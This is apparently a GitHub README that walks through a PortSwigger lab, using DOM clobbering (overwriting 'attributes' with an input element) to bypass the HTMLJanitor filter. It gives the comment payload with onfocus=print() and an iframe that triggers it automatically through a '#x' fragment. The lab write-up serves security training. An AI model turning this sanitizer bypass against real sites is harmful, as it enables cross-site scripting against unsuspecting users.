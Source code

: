 # Clobbering DOM attributes to bypass HTML filters

## 📌 Lab Details
- **Title**: Clobbering DOM attributes to bypass HTML filters
- **Difficulty**: Expert
- **Category**: DOM-based vulnerability
- **Lab URL**: https://portswigger.net/academy/labs/launch/4d27a0ebb9fa4e9a66754f25ebbaca6772f085e601b714356dc4437a47e3efdc?referrer=%2fweb-security%2fdom-based%2fdom-clobbering%2flab-dom-clobbering-attributes-to-bypass-html-filters

## 🔍 Summary
This lab uses **HTMLJanitor**, which filters HTML attributes via `element.attributes`. By clobbering the `attributes` property using `<input id=attributes>`, we bypass the filter and inject an `onfocus=print()` on a form, triggering `print()` **automatically when focused using** `#x` **in the URL fragment**.

## 🛠 Steps to Solve
1. Go to one of the blog posts and create a comment containing the following HTML:
   ```sh
   <form id=x tabindex=0 onfocus=print()><input id=attributes>
   ```
2. Go to the exploit server and add the following `iframe` to the body:
   ```sh
   <iframe src=https://YOUR-LAB-ID.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)">
   ```
3. Store the exploit and deliver it to the victim. The next time the page loads, the `print()` function is called.

## 📖 Key Takeaways
- **DOM Clobbering** can bypass attribute-based sanitization by overwriting `element.attributes`.
- The **iframe with** `#x` auto-focuses the form, triggering **XSS without user interaction**.
- Demonstrates why **using** `element.attributes` **for sanitization is unsafe**.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/2c496fbc-4094-462d-b3c7-e2b92e0e44ae)
![image](https://github.com/user-attachments/assets/fa87a2f2-a6d9-4b17-9e49-22e7fa6f0efc)
![image](https://github.com/user-attachments/assets/99b6834d-60df-4fdd-a977-de9ddfe957c8)
![image](https://github.com/user-attachments/assets/028090d1-b6a4-4fa3-8b39-0d4f7a57d2e3)
![image](https://github.com/user-attachments/assets/91772fae-dcd9-41fc-83ba-657a4d088173)
